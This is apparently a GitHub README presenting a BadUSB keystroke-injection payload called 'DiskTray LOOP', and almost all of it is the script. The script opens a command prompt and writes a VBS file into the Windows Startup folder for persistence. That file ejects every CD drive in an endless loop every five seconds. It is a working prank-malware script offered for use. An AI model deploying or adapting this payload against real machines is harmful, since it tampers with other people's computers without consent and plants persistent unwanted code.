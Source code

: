 # DiskTray LOOP (For BadUSBs)
This scripts sets a vbs file into the startup folder that opens the disk tray over and over (Every 5 seconds).

# Code
<pre><code>GUI d
DELAY 300
GUI r
STRING cmd
ENTER
DELAY 200
STRING cd "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
ENTER
STRING copy con DT.vbs && start DT.vbs && exit
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL z
</code></pre>
